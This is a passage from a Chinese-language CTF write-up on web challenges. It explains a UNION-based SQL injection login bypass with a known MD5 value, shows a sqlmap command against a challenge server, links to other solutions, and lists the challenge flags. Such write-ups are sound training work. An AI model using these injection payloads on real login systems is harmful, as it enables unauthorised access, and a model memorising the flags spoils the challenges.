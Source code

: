 ####构造
  
最终user的框里输入的内容为：
`'AND 0=1 UNION SELECT "c4ca4238a0b923820dcc509a6f75849b" #`

- 最前面的单引号：闭合原文的`where user='`
- `AND 0=1`:为了使前面的表达式返回值为空 
从而使`select pw from php where user='' AND 0=1`这句话完全没用
- 接着我们使用`UNION SELECT "c4ca4238a0b923820dcc509a6f75849b"`，直接把MD5值作为返回值retuen给`$sql`
- `c4ca4238a0b923820dcc509a6f75849b`这串MD5值是数字1经过MD5 hash之后的结果
- 最后的`#`用来注释掉后面没用的东西
- 最终，将`'AND 0=1 UNION SELECT "c4ca4238a0b923820dcc509a6f75849b" #`输入到user框里，将数字1输入到pass框里，登录成功。  
- key：**SimCTF{youhaocongming}**

###重要参考
[Picto-CTF 2013](http://dook.biz/2015/02/picoctf-2013-php4-writeup/)  
  


----------


##14 仔细点就行了(转)
要用到：asp基础，sql语句构造、猜解，长度限制绕过，最后还得编码，反正我是跪了
>记一下：手动post的时候一定要编码
  
   
请看两位大神的解法:  
 [[漏洞分析] CTF:ASP源码审计认证绕过](http://blog.csdn.net/hitwangpeng/article/details/46788455)   
 [【WEB】仔细点就行了](http://www.idbg.net/archives/210)  
   

----------


##15 菊花(转)
这题基于sql语句，过滤了一堆检测注入点所用的关键字。
考验了一下解题者的fuzzing和绕过。
啊咧，大牛们有没有针对sql注入好用的fuzzing的web插件或者工具呀？一定要留言赐教下呀！  
  
当然了，这种小题对于我这么**狂霸炫酷拽**的选手，一定是...没做出来啊!  
  
大家参考下gwenchill大牛的解题思路：  
[西普部分CTF题目（web）（持续更新） ](http://blog.csdn.net/gwenchill/article/details/47708223)  
  


----------


##16 看起来有点难
  
相比之前的两个题，这题就略简单了（不知道为什么设置的分值最高）。
  
爆的时候注意URL中的参数不要少，同时`--data`参数也全都填上，就ok了。  

`python sqlmap.py -u "http:ctf1.simplexue.com/basic/inject/index.php?admin=admin&pass=d&action=login" --data "admin=&pass=" -D test --table`  
  
具体sqlmap操作可参考本文前几题，不赘述了。  
  
KEY :**!@#WwwN5f0cu5coM**


----------


#纪念一下




![完工](http://img.blog.csdn.net/20150917222204859)

